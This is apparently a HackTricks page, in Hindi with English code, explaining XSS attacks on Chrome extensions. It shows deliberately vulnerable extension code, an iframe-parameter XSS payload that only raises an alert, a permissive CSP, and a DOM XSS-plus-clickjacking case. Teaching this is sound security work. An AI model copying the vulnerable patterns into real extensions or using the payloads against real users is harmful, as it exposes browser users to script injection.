 # BrowExt - XSS Example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cross-Site Scripting (XSS) through Iframe

इस सेटअप में, एक **content script** को Iframe को स्थापित करने के लिए लागू किया गया है, जिसमें Iframe के स्रोत के रूप में क्वेरी पैरामीटर के साथ एक URL शामिल है:
```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```
एक सार्वजनिक रूप से सुलभ HTML पृष्ठ, **`message.html`**, को URL में दिए गए पैरामीटर के आधार पर दस्तावेज़ शरीर में सामग्री को गतिशील रूप से जोड़ने के लिए डिज़ाइन किया गया है:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```
एक दुर्भावनापूर्ण स्क्रिप्ट एक प्रतिकूल के पृष्ठ पर निष्पादित होती है, जो Iframe के स्रोत के `content` पैरामीटर को संशोधित करती है ताकि एक **XSS पेलोड** पेश किया जा सके। यह Iframe के स्रोत को एक हानिकारक स्क्रिप्ट शामिल करने के लिए अपडेट करके प्राप्त किया जाता है:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```
एक अत्यधिक अनुमति देने वाली सामग्री सुरक्षा नीति जैसे:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
JavaScript के निष्पादन की अनुमति देता है, जिससे सिस्टम XSS हमलों के प्रति संवेदनशील हो जाता है।

XSS को उत्तेजित करने के लिए एक वैकल्पिक दृष्टिकोण Iframe तत्व बनाना और इसके स्रोत को हानिकारक स्क्रिप्ट को `content` पैरामीटर के रूप में शामिल करना है:
```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```
## DOM-based XSS + ClickJacking

यह उदाहरण [मूल पोस्ट लेख](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/) से लिया गया है।

मुख्य समस्या **`/html/bookmarks.html`** में स्थित एक DOM-आधारित क्रॉस-साइट स्क्रिप्टिंग (XSS) भेद्यता से उत्पन्न होती है। समस्या वाला JavaScript, जो **`bookmarks.js`** का हिस्सा है, नीचे विस्तृत किया गया है:
```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```
यह स्निपेट **`txtName`** इनपुट फ़ील्ड से **मान** प्राप्त करता है और **HTML उत्पन्न करने के लिए स्ट्रिंग संयोजन का उपयोग करता है**, जिसे फिर jQuery के `.append()` फ़ंक्शन का उपयोग करके DOM में जोड़ा जाता है।

आमतौर पर, Chrome एक्सटेंशन की सामग्री सुरक्षा नीति (CSP) ऐसी कमजोरियों को रोकती है। हालाँकि, **‘unsafe-eval’ के साथ CSP में ढील** और jQuery के DOM हेरफेर विधियों का उपयोग (जो [`globalEval()`](https://api.jquery.com/jquery.globaleval/) का उपयोग करके स्क्रिप्ट को [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) में पास करते हैं जब DOM में डाला जाता है) के कारण, शोषण अभी भी संभव है।

हालांकि यह कमजोरी महत्वपूर्ण है, इसका शोषण आमतौर पर उपयोगकर्ता इंटरैक्शन पर निर्भर करता है: पृष्ठ पर जाना, XSS पेलोड दर्ज करना, और “Add” बटन को सक्रिय करना।

इस कमजोरी को बढ़ाने के लिए, एक द्वितीयक **clickjacking** कमजोरी का शोषण किया जाता है। Chrome एक्सटेंशन का मैनिफेस्ट एक विस्तृत `web_accessible_resources` नीति को प्रदर्शित करता है:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Notably, the **`/html/bookmarks.html`** पृष्ठ फ्रेमिंग के प्रति संवेदनशील है, इस प्रकार **clickjacking** के लिए कमजोर है। इस कमजोरी का उपयोग हमलावर की साइट के भीतर पृष्ठ को फ्रेम करने के लिए किया जाता है, इसे DOM तत्वों के साथ ओवरले करके इंटरफेस को धोखे से redesign किया जाता है। यह हेरफेर पीड़ितों को अनजाने में अंतर्निहित एक्सटेंशन के साथ इंटरैक्ट करने के लिए प्रेरित करता है।

## References

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
